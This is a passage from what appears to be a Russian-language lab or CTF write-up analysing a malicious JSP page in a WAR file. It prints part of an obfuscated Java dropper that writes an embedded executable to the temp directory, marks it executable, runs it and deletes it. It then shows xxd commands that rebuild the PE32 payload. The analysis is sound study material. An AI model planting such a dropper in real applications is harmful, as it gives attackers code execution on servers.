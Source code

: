 ```java
20  FqAwiqfsveTbNJR.close();
21
22  if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1){
23    String[] RnIdZAAiAiBBY = new String[3];
24    RnIdZAAiAiBBY[0] = "chmod";
25    RnIdZAAiAiBBY[1] = "+x";
26    RnIdZAAiAiBBY[2] = fynDpwhPjEzrXc;
27    Process MgklpqdMn = Runtime.getRuntime().exec(RnIdZAAiAiBBY);
28    if (MgklpqdMn.waitFor() == 0) {
29      MgklpqdMn = Runtime.getRuntime().exec(fynDpwhPjEzrXc);
30    }
31
32    File USGdceIiNo = new File(fynDpwhPjEzrXc); USGdceIiNo.delete();
33  } else {
34    String[] ppmvkPHt = new String[1];
35    ppmvkPHt[0] = fynDpwhPjEzrXc;
36    Process MgklpqdMn = Runtime.getRuntime().exec(ppmvkPHt);
37  }
```

```text
38 %>
```

Разберемся, что здесь происходит:
  1. [строка 3] Определяется переменная `egTwYyNyGe`, содержащая гигантскую hex-строку, начинающуюся с `4d5a` — [сигнатуры "MZ"](https://ru.wikipedia.org/wiki/MZ_(формат) "MZ (формат) — Википедия"), свойственной исполняемым файлам Windows.
  2. [строка 4] Создается путь к файлу со случайным именем в местной врéменной директории (`java.io.tmpdir`).
  3. [строки 6-8] Если название ОС содержит слово "windows", то к полному имени файла (еще не существующему) добавляется расширение ".exe".
  4. [строка 10] Определяется длина той гигантской hex-строки.
  5. [строки 11-15] Создается байтовый массив с размером, равным половине длины hex-строки (это логично, потому что 2 hex-символа представляют 1 байт) и заполняется значениями из hex-строки, конвертированными в байты.
  6. [строки 17-20] Создается файловый поток, ассоциированный с именем из шага 3, и заполняется значениями байтового массива из шага 5.
  7. [строки 22-37] В зависимости от того, с какой ОС мы имеем дело, выполняются приготовления для запуска созданного файла, и, собственно, файл запускается на исполнение.

В последнем шаге для запуска файла вне зависимости от типа ОС используется [Java-реализация](https://docs.oracle.com/javase/7/docs/api/java/lang/Runtime.html#exec(java.lang.String[]) "Runtime (Java Platform SE 7 )") функции `exec`.

Если сохранить в отдельный файл ту самую гигантскую hex-строку:
```text
root@kali:~/war# wc -c wdwxbdssjol.hex
147604 wdwxbdssjol.hex
```

И собрать ее в бинарник:
```text
root@kali:~/war# cat wdwxbdssjol.hex | xxd -ps -r > wdwxbdssjol.exe
root@kali:~/war# file wdwxbdssjol.exe
wdwxbdssjol.exe: PE32 executable (GUI) Intel 80386, for MS Windows
```

